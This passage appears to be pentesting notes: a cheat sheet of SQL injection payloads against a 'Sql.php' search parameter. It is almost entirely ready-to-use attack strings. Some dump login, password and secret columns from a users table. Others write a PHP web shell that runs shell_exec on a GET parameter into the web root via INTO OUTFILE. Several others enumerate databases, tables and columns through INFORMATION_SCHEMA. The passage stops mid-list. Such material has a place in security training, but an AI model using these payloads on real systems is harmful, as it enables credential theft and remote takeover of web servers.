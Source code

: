 ```
Sql.php?search=pentesting’ union select 1,login,user,password,1,1,1 from users#
```

Or

```
Sql.php?search = ' and 1=0 union all select 1,login,password,secret,email,admin,7 from users-- -
```

```
Sql.php?search=pentesting’ union select 1, "<?php echo shell_exec($_GET['cmd'])?>",1,1,1,1,1 into outfile "/var/www/html/shell3.php"#
```

Or

```
Sql.php?search= ' and 1=0 union all select 1, "<?php echo shell_exec($_GET['cmd'])?>",1,1,1,1,1 into outfile "/var/www/html/shell3.php"#
```

**Another method after finding the number of columns.** Lets say we found there are three columns, we would continue this way:

```
searchitem=test' UNION SELECT 1,2,3-- -
```

Enumerating the names of the databases

```
searchitem=test' UNION SELECT 1,(select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),3-- -
```

The SCHEMATA table specifically contains the names of databases MySQL knows about.

```
searchitem=test' UNION SELECT 1,(select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'db'),3-- -
```

`Extracting columns in a table`

```
searchitem=test' UNION SELECT 1,(select group_concat(COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'),3-- -
```

`extracting specific data from a column`

```
searchitem=test' UNION SELECT 1,(select username from db.users),3-- -
```

\#OR

```
searchitem=test' UNION SELECT 1,group_concat(id, ':', name, ':', password)from users,3-- -
```

\#OR
